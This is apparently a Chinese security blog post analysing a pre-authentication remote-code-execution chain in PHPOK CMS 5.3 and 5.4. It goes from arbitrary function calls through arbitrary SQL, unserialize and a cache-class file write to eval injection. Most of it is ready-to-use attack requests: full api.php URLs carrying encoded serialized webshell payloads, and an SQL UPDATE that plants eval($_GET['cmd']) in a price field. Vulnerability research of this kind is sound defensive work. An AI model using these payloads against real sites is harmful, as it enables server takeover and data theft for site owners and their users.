


路由
index.php admin.php api.php 分别对应framework文件夹下的www admin api这三个文件夹
路由接口参数$_GET['c']，拼接上_control.php就是framework/(www)(admin)(api)目录下对应文件，对应类为{$c}_control
函数接口参数$_GET['f']，拼接上_f就是对应方法
漏洞流程
- 对用户输入的json数据未做过滤，用户输入通过
array_merge函数存入数组 - 执行任意函数来进行任意sql语句执行和反序列化
- 任意文件写入
- 任意命令执行
V5.4漏洞分析
任意调用函数
存在漏洞的类和方法：framework/api/call_control.php::index_f
进入：api.php?c=call
首先，我们可以通过get传入参数data，然后如果data是json格式的数据，会对数据执行json_decode
先随便传一个：data={"a":"1"}调试看看
通过json_decode后会进入format函数对data处理，跟进format函数，会发现这里会将json_decode后得到的键名和键值中的双引号，单引号等替换掉，这里是一个要注意的限制
然后经过一个查询后返回$call_all
当我们输入的键名存在$call_all[$key]和$call_all[$key]['is_api']存在时，会调用phpok函数
找一个符合条件的，比如$call_all['m_picplayer']
替换payload：
1 | ?data={"m_picplayer":{"a":"1"}} |
跟进framework/phpok_tpl_helper.php::phpok
又调用一个phpok函数，继续跟进
framework/phpok_call.php::phpok
函数前半部分对我们传入的{"a":"1"}即参数$rs进行一系列赋值处理后将$rs数组通过array_merge函数合并到$call_rs数组中，而$rs数组我们是可以控制的，也就等于说$call_rs数组中的参数我们也可以进行控制
然后将$call_rs数组的type_id字段取出拼接上_后，作为函数名执行$this->func($call_rs)和$this->func($call_rs,$cache_id)
所以我们可以通过控制type_id字段来执行任意以_开头的函数
_sql函数利用
首先目光放在_sql方法上
首先是参数$rs['sqlinfo']，我们可以控制，然后这里将之前发现format函数的过滤部分又替换了回来：
1 | $msg = str_replace(array("\\","'",'"',"<",">"),array("\","'",""","<",">"),$msg); //format函数 |
等于说我们随意添加单双引号最后都等于没过滤，然后传入get_all方法
先把payload替换到现有执行到_sql函数的条件：
1 | data={"m_picplayer":{"type_id":"sql","cache":"false","sqlinfo":"select 'somnus';"}} |
跟进get_all方法
跟进query方法
执行mysqli_query，ok，到这里我们就发现可以任意执行sql语句了
下面再看看另一个利用函数
_fields函数利用
经过两次sql查询后，执行了一次反序列化操作，看看两次查询
先把payload换成执行_fields的：
1 | data={"m_picplayer":{"type_id":"fields","cache":"false"}} |
framework/model/project.php::project_one
执行的sql语句：
1 | $sql = "SELECT * FROM qinggan_project WHERE id='41' AND site_id='1'"; |
framework/model/module.php::fields_all
执行的sql语句：
1 | $sql = "SELECT * FROM qinggan_fields WHERE ftype='21' ORDER BY taxis ASC,id DESC"; |
然后将执行的结果返回给$flist参数后，将$value['ext']值拼接到unserialize反序列化
那么我们要控制ext字段，就可以利用前面分析的_sql方法来向qinggan_fields表中插入ftype='21'的数据
1 | INSERT INTO qinggan_fields(`id`,`ftype`,`title`,`identifier`,`field_type`,`note`,`form_type`,`form_style`,`format`,`content`,`taxis`,`ext`,`is_front`,`search`,`search_separator`,`form_class`) VALUES(1,'21','text','pic','int','test','upload','test','safe','test',20,POC,0,0,'test','test'); |
结合之前触发_sql的payload：
1 | data={"m_picplayer":{"type_id":"sql","cache":"false","sqlinfo":"INSERT INTO qinggan_fields(`id`,`ftype`,`title`,`identifier`,`field_type`,`note`,`form_type`,`form_style`,`format`,`content`,`taxis`,`ext`,`is_front`,`search`,`search_separator`,`form_class`) VALUES(1,'21','text','pic','int','test','upload','test','safe','test',20,POC,0,0,'test','test');"}} |
然后触发_fields：
1 | data={"m_picplayer":{"type_id":"fields","cache":"false","site":1,"pid":41}} |
注意添加上确认不会返回false，在qinggan_project表中，满足条件的site:1和pid:41参数
测试下：
可以看到此时已经成功查询到我们插入的数据部分，最后将ext替换成我们要执行的反序列化POC即可
POP
全局搜索__destruct
锁定framework/engine/cache.php
可控参数$this->key_id和$this->key_list，传入save方法，跟进
存在写文件操作，参数$content和$file都可控，只需要通过php://filter/write=convert.base64-decode/伪协议来绕过死亡exit()即可
POC：
1 |
|
攻击
payload1：
1 | ?c=call&data={"m_picplayer":{"type_id":"sql","cache":"false","sqlinfo":"INSERT INTO qinggan_fields(`id`,`ftype`,`title`,`identifier`,`field_type`,`note`,`form_type`,`form_style`,`format`,`content`,`taxis`,`ext`,`is_front`,`search`,`search_separator`,`form_class`) VALUES(1,'21','text','pic','int','test','upload','test','safe','test',20,0x4f3a353a226361636865223a333a7b733a393a22002a006b65795f6964223b733a35363a227068703a2f2f66696c7465722f77726974653d636f6e766572742e6261736536342d6465636f64652f7265736f757263653d736f6d6e7573223b733a31313a22002a006b65795f6c697374223b733a32363a2261615044397761484167634768776157356d627967704f7a382b223b733a393a22002a00666f6c646572223b733a303a22223b7d,0,0,'test','test');"}} |
payload2：
1 | data={"m_picplayer":{"type_id":"fields","cache":"false","site":1,"pid":41}} |
最终效果
V5.3漏洞分析
5.3版本与5.4版本实际上差别就是对json_decode后的数据没有经过format函数的引号替换处理。所以5.4的POC同样可以套在5.3中
不过没有了format函数的过滤，可以试着寻找其他更简便的函数，如_format_ext_all函数
我们只需控制数组的键值部分的form_type和content字段即可直接进行反序列化操作
不过，这里要注意，由于我们反序列化的是cache 类，而cache类中是带有protected变量，所以序列化后的字符串一定会带有%00，而json_decode是不支持直接传入%00的，所以我们需要将%00进行unicode编码成\u0000传入。还有要将双引号"转义
POC
1 |
|
payload：
1 | /api.php?c=call&data={"m_picplayer":{"type_id":"format_ext_all","cache":"false","id":{"form_type":"url","content":"O%3A5%3A%5C"cache%5C"%3A3%3A%7Bs%3A9%3A%5C"%5Cu0000%2A%5Cu0000key_id%5C"%3Bs%3A56%3A%5C"php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3Dsomnus%5C"%3Bs%3A11%3A%5C"%5Cu0000%2A%5Cu0000key_list%5C"%3Bs%3A26%3A%5C"aaPD9waHAgcGhwaW5mbygpOz8%2B%5C"%3Bs%3A9%3A%5C"%5Cu0000%2A%5Cu0000folder%5C"%3Bs%3A0%3A%5C"%5C"%3B%7D"}}} |
不过这里如果form_type='url'有个缺陷
因为反序列化后的对象赋值给$value['content']之后会调用rewrite或default这两个不存在的属性，如果是在php5.6环境下，会出现报错而执行不了反序列化的情况
测试代码：
1 |
|
php 5.6环境下测试反序列化，__wakeup执行成功，而__destruct失败，说明反序列化成功，但是因为调用了类的不存在的属性而导致程序异常，__destruct执行失败
而本地测试环境是php7.2，貌似就不会出现这种问题
解决方法是进入另一个elseif执行反序列化即可
payload：
1 | /api.php?c=call&data={"m_picplayer":{"type_id":"format_ext_all","cache":"false","id":{"form_type":"editor","ext":"O%3A5%3A%5C"cache%5C"%3A3%3A%7Bs%3A9%3A%5C"%5Cu0000%2A%5Cu0000key_id%5C"%3Bs%3A56%3A%5C"php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3Dsomnus%5C"%3Bs%3A11%3A%5C"%5Cu0000%2A%5Cu0000key_list%5C"%3Bs%3A26%3A%5C"aaPD9waHAgcGhwaW5mbygpOz8%2B%5C"%3Bs%3A9%3A%5C"%5Cu0000%2A%5Cu0000folder%5C"%3Bs%3A0%3A%5C"%5C"%3B%7D","content":"1"}}} |
命令执行
全局搜索eval函数，发现在/framework/model/cart.php::freight_price()存在eval函数
而且参数$val是从数据库查询出的，因为我们前面已经可以任意执行sql语句，所以这里$val参数也是可控的
那么首先就要找到该函数的入口点，继续全局搜索freight_price函数
发现api/cart_control.php中调用了，跟进看看
在cart_control.php的pricelist_f方法中，通过之前分析的路由，我们通过：
1 | /api.php?c=cart&f=pricelist |
进入该方法，然后启动调试

首先需要我们get传入一个id参数，传入id=1继续调试
这里有个要注意，我们首先需要添加一样商品到购物车里，使得$this->cart_id=1
然后传入一个id参数
首先在这里程序就退出了，因为sql查询出的结果$rslist为空，于是跟进该sql查询看看
这边执行的是：
1 | SELECT * FROM qinggan_cart_product WHERE cart_id='1' AND id IN($id) |
所以我们只需要让id和cart_id一起有查询结果即可，得到id的方法，我们就可以通过执行任意语句来注入得到，这边方便演示我就直接跳过，本地查询得到id=7
修改payload：
1 | /api.php?c=cart&f=pricelist&id=7 |
继续调试

断在了这里，$province和$city参数为空，追溯这两个参数
当我们没有get赋值address_id时，$province和$city可以直接通过get方式赋值，修改payload：
1 | /api.php?c=cart&f=pricelist&id=7&province=1&city=1 |
成功进入目标freight_price函数
直接把断点打在sql语句处
执行的sql语句：
1 | SELECT * FROM qinggan_freight_price WHERE zid='25' AND CAST(unit_val AS DECIMAL)<=2499 ORDER BY unit_val+0 DESC LIMIT 1 |
返回如下：
最终返回price字段值：10

然后要满足条件：
1 | if(strpos($val,'N') !== false) |
才能将$val拼接到eval中执行，即要包含关键字N，所以我们可以直接通过任意sql语句执行，修改该表中对应zid=25，unit_val='100'的price字段为：1;eval($_GET[]);N，即可rce
payload：
1 | /api.php?c=call&data={"m_picplayer":{"type_id":"sql","cache":"false","sqlinfo":"UPDATE qinggan_freight_price SET price='1;eval($_GET[\"cmd\"]);N' WHERE zid=25 AND unit_val='100';"}} |
执行成功后触发rce：
1 | /api.php?c=cart&f=pricelist&id=7&province=1&city=1&cmd=phpinfo(); |
参考
https://www.anquanke.com/post/id/194453
https://zhzhdoai.github.io/2019/12/11/PHPOK-5-4-%E5%89%8D%E5%8F%B0getshell/